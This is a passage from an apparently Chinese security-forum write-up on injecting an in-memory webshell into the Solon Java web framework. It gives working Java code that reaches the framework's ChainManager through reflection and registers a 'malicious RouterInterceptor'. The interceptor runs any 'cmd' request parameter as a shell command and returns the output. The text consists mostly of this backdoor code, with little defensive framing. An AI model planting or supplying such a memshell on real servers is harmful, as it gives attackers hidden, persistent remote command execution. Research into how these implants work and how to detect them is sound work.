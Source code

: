 ![image-20240810212454987](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-fa50c84eaae224a036b97498bbd1c7769520edd6.png)

只需要把`_chainManager.addFilter`修改为`addInterceptor`即可

```java
Context ctx = Context.current();  
Object _request = getfieldobj(ctx,"_request");  
Object request = getfieldobj(_request,"request");  
Object serverHandler = getfieldobj(request,"serverHandler");  
Object handler = getfieldobj(serverHandler,"handler");  
Object arg$1 = getfieldobj(handler,"arg$1");  
ChainManager _chainManager = (ChainManager) getfieldobj(arg$1,"_chainManager");  
_chainManager.addInterceptor(new RouterInterceptormemshell(),0);
```

其中恶意RouterInterceptor

```java
public class RouterInterceptormemshell implements RouterInterceptor{  
        @Override  
        public PathRule pathPatterns() {  
            return new PathRule().include("/hello"); //限定路径，可以为return null;即作用于全路径  
        }  
        @Override  
        public void doIntercept(Context ctx, Handler mainHandler, RouterInterceptorChain chain) throws Throwable {  
            try{  
                if(ctx.param("cmd")!=null){  
                    String str = ctx.param("cmd");  
                    try{  
                        String[] cmds =  
                                System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",  
                                        "/c", str} : new String[]{"/bin/bash", "-c", str};  
                        String output = (new java.util.Scanner((new  
                                ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();  
                        ctx.output(output);  
                    }catch (Exception e) {  
                        e.printStackTrace();  
                    }  
                }  
            }catch (Throwable e){  
                ctx.output(e.getMessage());  
            }  
            chain.doIntercept(ctx, mainHandler);  
        }  
    }  
​  
}
```

ActionExecuteHandler内存马
-----------------------
